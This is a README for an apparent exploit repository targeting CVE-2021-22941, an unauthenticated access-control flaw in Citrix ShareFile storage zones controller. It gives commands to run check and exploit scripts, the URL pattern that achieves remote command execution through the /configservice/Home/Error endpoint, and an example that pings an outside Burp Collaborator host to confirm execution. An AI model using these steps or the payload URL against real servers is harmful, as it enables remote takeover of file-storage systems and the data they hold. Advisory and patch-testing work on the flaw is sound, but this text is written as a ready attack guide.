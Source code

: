 # CVE-2021-22941 Citrix Sharefile 
Improper Access Control in Citrix ShareFile storage zones controller before 5.11.20 may allow an unauthenticated attacker to remotely compromise the storage zones controller.
# Use
### Check vulnerable
```
python3 check.py -u http://127.0.0.1
```
### Exploit
```
python3 exploit.py -u http://127.0.0.1
```
RCE: Going to http://127.0.0.1/configservice/Home/Error?0={cmd}?1={agrs}

Example:
http://127.0.0.1/configservice/Home/Error?0=cmd?1=/c+ping+-n+5+ajxfqfcjf19sm5popcdh8au6sxynmc.burpcollaborator.net
# Reference
- https://codewhitesec.blogspot.com/2021/09/citrix-sharefile-rce-cve-2021-22941.html
- https://github.com/hoavt184/CVE-2021-22941
